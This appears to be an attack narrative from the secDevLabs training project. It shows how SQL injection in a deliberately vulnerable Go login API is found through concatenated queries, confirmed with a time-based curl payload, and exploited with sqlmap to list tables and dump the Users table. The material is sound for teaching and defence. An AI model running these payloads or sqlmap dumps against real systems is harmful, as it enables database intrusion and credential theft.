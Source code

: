 # Attack Narrative - CopyNPaste API (Injection)

The main goal of this documentation is to describe how a malicious user could exploit an Injection vulnerability intentionally intalled on CopyNPaster API from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a1/copy-n-paste) yet, you should check them before reading this narrative. 

----

## 👀

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`]((https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/copy-n-paste/app/util/db.go#)) file, it was possibile to see that some input from users are concatenated with SQL queries, as shown in the following codes: 

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is present to these variables, SQL injections may be successfuly executed in the database. To confirm this, the following payload could be used that, if the application is indeed vulnerable, a 30 seconds delay will be noted after sending it:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:3000/login 
```

Request:
<img src="attack-1.png" align="center"/>

30 seconds later: 
<img src="attack-2.png" align="center"/>

## 🔥

An attacker could now create any malicious SQL queries and send to the API that, in theory, will be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed. 

To install sqlmap on Mac you can simply type:

```sh
brew install sqlmap
```

First possible step is to create a `postRequest.txt` containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Then we could use `-r` option and wait sqlmap perform multiples malicious requests until it finds the vulnerable parameter:

```sh
$ sqlmap -r postRequest.txt
```

<img src="attack-3.png" align="center"/>

After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
$ sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from the it:

```sh
$ sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="attack-4.png" align="center"/>
